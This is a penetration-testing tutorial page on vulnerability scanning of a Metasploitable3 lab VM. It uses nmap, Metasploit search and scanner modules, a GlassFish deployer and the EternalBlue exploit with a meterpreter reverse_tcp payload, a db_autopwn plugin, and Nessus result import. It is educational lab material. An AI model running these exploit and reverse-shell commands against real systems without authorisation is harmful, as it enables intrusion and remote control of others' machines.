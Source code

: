 # Vulnerability Scanning

MSF **Auxiliary** and **exploit** modules can be utilized to identify inherent vulnerabilities in services, O.S. and web apps.

* Useful in the **Exploitation** phase of the pentest

🔬 [Metasploitable3](https://github.com/rapid7/metasploitable3) lab environment will be used for the vulnerability scanning demonstration.

* **Metasploitable3** is a vulnerable virtual machine developed by Rapid7, intended to be used as a vulnerable target for testing exploits with Metasploit.

> 🔬 You can find my lab installation & configuration with Vagrant at [this page](https://blog.syselement.com/home/home-lab/redteam/metasploitable3), _set up for educational purposes_.

* Kali Linux attacker machine must be configured with **the same local network** of the Metasploitable3 VMs.

Detect active hosts on the local network, from the Kali VM:

```bash
sudo nmap -sn 192.168.31.0/24
```

```bash
Nmap scan report for 192.168.31.139 # Linux target
Nmap scan report for 192.168.31.140 # Windows2008 target
```

* Run Metasploit:

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.168.31.140
setg RHOST 192.168.31.140
workspace -a VULN_SCAN_MS3
```

* **Service version** is a key piece of information for the vulnerabilities scanning. Use the **`db_nmap`** command inside the MSF

```bash
db_nmap -sS -sV -O 192.168.31.140
```

```bash
[*] Nmap: 21/tcp    open  ftp Microsoft ftpd
[*] Nmap: 22/tcp    open  ssh OpenSSH 7.1 (protocol 2.0)
[*] Nmap: 80/tcp    open  http Microsoft IIS httpd 7.5
[*] Nmap: 135/tcp   open  msrpc Microsoft Windows RPC
[*] Nmap: 139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
[*] Nmap: 3306/tcp  open  mysql MySQL 5.5.20-log
[*] Nmap: 3389/tcp  open  tcpwrapped
[*] Nmap: 4848/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
[*] Nmap: 7676/tcp  open  java-message-service Java Message Service 301
[*] Nmap: 8009/tcp  open  ajp13 Apache Jserv (Protocol v1.3)
[*] Nmap: 8080/tcp  open  http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
[*] Nmap: 8181/tcp  open  ssl/http Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
[*] Nmap: 8383/tcp  open  http Apache httpd
[*] Nmap: 9200/tcp  open  wap-wsp?
[*] Nmap: 49152/tcp open  msrpc Microsoft Windows RPC
[*] Nmap: 49153/tcp open  msrpc Microsoft Windows RPC
[*] Nmap: 49154/tcp open  msrpc Microsoft Windows RPC
[*] Nmap: 49155/tcp open  msrpc Microsoft Windows RPC
[...]
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-da30e0d4036528a13a9f80ff9d8b01fdd950c4eb%252Fimage-20230413200524969.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=7a28d970&#x26;sv=1" alt=""><figcaption><p>db_nmap</p></figcaption></figure>

```bash
hosts
services
```

* Manually search for a specific exploit
  * Check if there are any exploits for a particular **version** of a service

```bash
search type:exploit name:iis
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-375c51ac9321889fd7f66157154bed2363465c80%252Fimage-20230413192845621.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=6e8f5ea2&#x26;sv=1" alt=""><figcaption><p>search type:exploit name:iis</p></figcaption></figure>

```bash
search Sun GlassFish
```

* Check if a module will work on the specific version of the service

```bash
use exploit/multi/http/glassfish_deployer
info

# Description:
#   This module logs in to a GlassFish Server (Open Source or
#   Commercial) using various methods (such as authentication bypass,
#   default credentials, or user-supplied login), and deploys a
#   malicious war file in order to get remote code execution. It has
#   been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System
#   Application Server 9.x. Newer GlassFish versions do not allow remote
#   access (Secure Admin) by default, but is required for exploitation.
```

```bash
set payload windows/meterpreter/reverse_tcp
options
# check the LHOST, LPORT, APP_RPORT, RPORT, PAYLOAD options
```

* Use [searchsploit](https://www.exploit-db.com/searchsploit) tool from the Kali terminal, instead of `search MSF command`, by displaying only the Metasploit exploit modules

```bash
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-ccd61dd756b19c9fe6732fd4bc6df233f08f8c9a%252Fimage-20230413194606641.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=1657eeca&#x26;sv=1" alt=""><figcaption></figcaption></figure>

* Back in `msfconsole`, check if the server is vulnerable to MS17-010

```bash
search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
run
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-e9399a0e6c8efc589338f07390d7ad79f5433cf8%252Fimage-20230413200558380.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=8dc027dd&#x26;sv=1" alt=""><figcaption></figcaption></figure>

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
# always check Payload options
run
```

> [**metasploit-autopwn**](https://github.com/hahwul/metasploit-autopwn) - a Metasploit plugin for easy exploit & vulnerability attack.
>
> * _takes a look at the Metasploit database and provides a list of exploit modules to use for the already enumerated services_

* On a Kali terminal

```bash
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins/
```

* On `msfconsole`

```bash
load db_autopwn
```

```bash
db_autopwn -p -t
# Enumerates exploits for each of the open ports
```

```bash
db_autopwn -p -t -PI 445
# Limit to only the 445 port
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-aebfca43b742e41d758e63a2e3e6b0cdbc355643%252Fimage-20230413202435550.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=58548ba3&#x26;sv=1" alt=""><figcaption><p>db_autopwn -p -t -PI 445</p></figcaption></figure>

* On `msfconsole` use the **`analyze`** command to auto analyze the contents of the MSFdb (hosts & services)

```bash
analyze
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-f2413c550b79a3a1148a63bdb63d63dc5778b675%252Fimage-20230413202708057.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=46a076bc&#x26;sv=1" alt=""><figcaption><p>analyze</p></figcaption></figure>

```bash
vulns
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-ceda763cca80af814cb9304c543bd68cb4bb61f3%252Fimage-20230413202802181.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=66c66476&#x26;sv=1" alt=""><figcaption><p>vulns</p></figcaption></figure>

## VA with [Nessus](https://www.offsec.com/metasploit-unleashed/working-with-nessus/) <a href="#va-with-nessus" id="va-with-nessus"></a>

> 🔬 You can find [**Nessus Essentials** install tutorial here](https://blog.syselement.com/home/operating-systems/linux/tools/nessus).

* A vulnerability scan with Nessus result can be imported into the MSF for analysis and exploitation.
* Nessus Essentials free version allows to scan up to 16 IPs.

```url
https://127.0.0.1:8834
```

Start Nessus Essentials on the Kali VM, login and create a New **Basic Network Scan** and run it.

Wait for the scan conclusion and export the results with the **Export/Nessus** button.

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-986ff2afeccc2978f8dfefa575f9bdf4d236d58d%252Fimage-20230413222104319.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=8bc5023d&#x26;sv=1" alt=""><figcaption><p>Nessus Essentials - Metasploitable3</p></figcaption></figure>

* Open the `msfconsole` terminal and import the Nessus results
  * Check the information from the scan results with the `hosts`, `services`, `vulns` commands

```bash
workspace -a MS3_NESSUS
db_import /home/kali/Downloads/MS3_zph3t5.nessus
hosts
services
vulns
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-1562ae2abdb68d12d5245bf395d9dd026ad7295c%252Fimage-20230413222333897.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=c76ed34b&#x26;sv=1" alt=""><figcaption></figcaption></figure>

```bash
vulns -p 445
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-22fa84721de13f146690e31e9bde9df8926340e6%252Fimage-20230413222411974.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=864968e7&#x26;sv=1" alt=""><figcaption></figcaption></figure>

```bash
search cve:2017 name:smb
search MS12-020
search cve:2019 name:rdp
search cve:2015 name:ManageEngine
search PHP CGI Argument Injection
```








